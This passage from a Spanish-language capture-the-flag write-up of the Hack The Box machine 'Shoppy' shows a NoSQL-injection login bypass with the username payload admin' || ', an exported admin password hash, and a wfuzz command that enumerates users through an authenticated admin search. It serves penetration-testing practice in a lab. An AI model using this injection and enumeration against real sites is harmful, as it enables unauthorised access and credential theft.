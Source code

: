> El problema que existe al logearnos ingresando la inyección es que la web codifica la data a **URL**, por ello recomiendo pasarlo por burpsuite para decodificarlo y enviarlo
{: .prompt-warning}

> Sin embargo, en la web también puedes pasar una inyección con un usuario válido (el clásico admin por defecto) y agregando una comilla para cerrar el campo username original `admin' || '`
{: .prompt-tip}

Logramos entrar a la web y observamos lo siguiente:

![shoppy-htb-admin-web](shoppy_htb_admin_web.png){: .shadow}

Llama la atención que podemos buscar usuarios, y probando usuarios clásicos conseguimos dar respuesta al buscar con el usuario `admin`

![shoppy-htb-admin-web-search](shoppy_htb_admin_search_admin.png){: .shadow}

Al descargar la exportación nos muestra las credenciales del usuario `admin` en formato `json`

```json
[
  {
    "_id": "62db0e93d6d6a999a66ee67a",
    "username": "admin",
    "password": "23c6877d9e2b564ef8b32c3a23de27b2"
  }
]
```

Sin embargo no conseguimos crackearla, pero a pesar de eso tenemos una vía de **enumerar más usuarios**. Por ello usamos `wfuzz` y con un diccionario de nombres filtramos por las respuestas que contengan **Download export**

```console
❯ wfuzz -c -w /usr/share/SecLists/Usernames/Names/names.txt --ss 'Download export' -b 'connect.sid=s%3A-KBUXDEBlgxYGHsr_sTcAWrfSW17csU1.gTfrPHTEMAjVmXuy6kmZYUYSf5zd%2Bfi7agmkHzZPor4' http://shoppy.htb/admin/search-users?username=FUZZ
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://shoppy.htb/admin/search-users?username=FUZZ
Total requests: 10177

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                    
=====================================================================

000000086:   200        55 L     160 W      2720 Ch     "admin"                                                                                                    
000004909:   200        55 L     160 W      2720 Ch     "josh" <-- New user!
```
